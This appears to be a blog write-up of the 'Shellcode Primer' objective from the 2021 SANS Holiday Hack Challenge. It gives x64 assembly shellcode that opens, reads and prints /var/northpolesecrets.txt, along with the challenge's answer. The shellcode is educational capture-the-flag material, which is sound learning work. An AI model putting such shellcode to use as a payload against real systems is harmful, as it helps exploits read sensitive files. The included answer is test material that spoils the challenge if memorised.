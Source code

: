```yaml
---
layout: post
title:  "6 - Shellcode Primer"
date:   2021-12-15 02:00:39 -0800
categories: kringlecon2021 objective6 main
---
```


This is challenge number 6 in the 2021 SANS Holiday Hack Challenge (https://2021.kringlecon.com/). Objective:

>Complete the Shellcode Primer in Jack's office. According to the last challenge, what is the secret to KringleCon success? "All of our speakers and organizers, providing the gift of ____, free to the community." Talk to Chimney Scissorsticks in the NetWars area for hints.


This challenge/training is "a training program conceived by Jack Frost (yes, THE Jack Frost) to train trolls how to build exploit code, from the ground up. This will teach how to write working x64 shellcode to read a file and print it to standard output!" This primer walks through several "Hello world" type examples, and leaves the last challenge mostly up to us. I will focus on the last challenge from the shellcode primer



>For this exercise, we're going to read a specific file… let's say, /var/northpolesecrets.txt… and write it to stdout.
No reason for the name, but since this is Jack Frost's troll-trainer, it might be related to a top-secret mission!

>Solving this is going to require three syscalls! Four if you decide to use sys_exit - you're welcome to return or exit, just don't forget to fix the stack if
you return!

>First up, just like last exercise, call sys_open. This time, be sure to open /var/northpolesecrets.txt.

>Second, find the sys_read entry on the syscall table, and set up the call. Some tips:

>    The file descriptor is returned by sys_open
    The buffer for reading the file can be any writeable memory - rsp is a great option, temporary storage is what the stack is meant for
    You can experiment to find the right count, but if it's a bit too high, that's perfectly fine

>Third, find the sys_write entry, and use it to write to stdout. Some tips on that:

>    The file descriptor for stdout is always 1
    The best value for count is the return value from sys_read, but you can experiment with that as well (if it's too long, you might get some garbage after;
    that's okay!)

>Finally, if you use rsp as a buffer, you won't be able to ret - you're going to overwrite the return address and ret will crash. That's okay! You remember
how to sys_exit, right? :)

Here we define a null terminated string which will be the name of the file we need to read. We also call into our get_secret function and pop address into rcx so we can find our shellcode address and string location

{% highlight shell %}
call get_secret
db '/var/northpolesecrets.txt',0
get_secret:
pop rcx
{% endhighlight %}

Here we call sys_open as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/, and open the file path stored in rcx


>2	sys_open	const char *filename	int flags	int mode


{% highlight shell %}
; TODO: Call sys_open
mov rax, 2
mov rdi,rcx
mov rsi,0
mov rdx,0
syscall
{% endhighlight %}


Here we read the open file using sys_read as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/. I created a string to allocate a buffer on the stack where the contents of the file could be read. Without writing this buffer, I kept overwriting instructions that would cause the program to crash.


>0	sys_read	unsigned int fd	char *buf	size_t count


{% highlight shell %}
; TODO: Call sys_read on the file handle and read it into rsp
call stringbuf
db 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA',0
stringbuf:
pop rcx
push rdi
push rax
mov rax, 0
pop rdi
mov rsi, rcx
mov rdx,260
syscall
{% endhighlight %}



Next up was calling sys_write to print the file contents to the stdout for viewing. I make a call to sys_write as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

>1	sys_write	unsigned int fd	const char *buf	size_t count

{% highlight shell %}
; TODO: Call sys_write to write the contents from rsp to stdout (1)
push rsi
push rax
mov rax, 1
mov rdi,1
pop rdx
pop rsi
syscall
{% endhighlight %}


Finally call sys_exit as defined here https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

{% highlight shell %}
; TODO: Call sys_exit
mov rax, 60
mov rdi, 0
syscall
{% endhighlight %}


And we run it!

![Objective6 output](/assets/kringlecon2021/objective6/objective6_output.jpg)

We have our answer to the challenge

>Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community.

![Objective6 complete](/assets/kringlecon2021/objective6/objective6_complete.jpg)
